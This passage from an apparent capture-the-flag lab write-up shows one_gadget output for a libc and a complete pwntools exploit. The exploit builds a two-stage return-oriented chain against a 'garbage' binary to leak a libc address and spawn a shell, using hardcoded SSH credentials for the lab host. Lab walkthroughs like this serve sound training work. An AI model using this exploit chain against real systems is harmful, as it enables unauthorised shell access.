 
    root@kali:/opt/libc-database# one_gadget libs/libc6_2.27-3ubuntu1_amd64/libc.so.6
    0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
    constraints:
      rcx == NULL

    0x4f322 execve("/bin/sh", rsp+0x40, environ)
    constraints:
      [rsp+0x40] == NULL

    0x10a38c execve("/bin/sh", rsp+0x70, environ)
    constraints:
      [rsp+0x70] == NULL



It gave three possible options of addresses to jump to which would run
`sh`.

In testing, the first one didn't work, but the second one did.

### Low Priv Shell

I put all that together and get this:



    #!/usr/bin/env python

    from pwn import *


    #context.log_level = "DEBUG"
    sshConn = ssh(host='10.10.10.139', user='margo', password='iamgod$08')
    garbage = sshConn.process('garbage')

    junk     = "A" * 136      # offset from pattern
    pop_rdi  = p64(0x40179b)  # rop-tool gadget garbage | grep rdi
    puts_plt = p64(0x401050)  # objdump -D garbage | grep puts@GLIBC
    puts_got = p64(0x404028)  # objdump -D garbage | grep puts@GLIBC
    main     = p64(0x401619)  # objdump -D garbage | grep '<main>' 

    stage_1 = junk + pop_rdi + puts_got + puts_plt + main
    garbage.sendline(stage_1)
    garbage.recvuntil("access denied.\n")
    leaked_puts = u64(garbage.recvline()[:-1].ljust(8, '\x00'))
    log.success("Leaked puts address: 0x%x" % leaked_puts)
    garbage.recvuntil("Enter access password: ")

    # offsets
    libc_puts    = 0x809c0  # readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep " puts@@GLIBC"
    libc_exec_sh = 0x4f322  # one_gadget gadget garbage
    libc_base   = leaked_puts - libc_puts

    stage_2 = junk + p64(libc_exec_sh + libc_base)
    garbage.sendline(stage_2)
    garbage.recvuntil("access denied.")
    garbage.interactive()
